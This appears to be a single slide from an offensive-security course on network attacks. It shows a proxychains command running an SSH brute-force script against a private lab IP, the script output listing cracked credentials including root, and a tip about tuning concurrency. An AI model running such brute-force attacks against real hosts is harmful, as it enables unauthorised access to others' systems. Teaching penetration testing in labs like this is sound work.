

Network (cont.)
Brute Forcing Network Services (cont.) : Brute Forcing SSH
If we run the script, we against the target, we should get some credentials back
$ proxychains python3.10 asyncssh_bruteforce_ssh.py -U users.txt -P passwords.txt 172.16.238.11
[+] Credentials found: 172.16.238.11 root s3cr3t
[+] Credentials found: 172.16.238.11 khalid 1337khalid
In case of issues, try to lower the concurrent connections made through the Semaphore variable sem.
93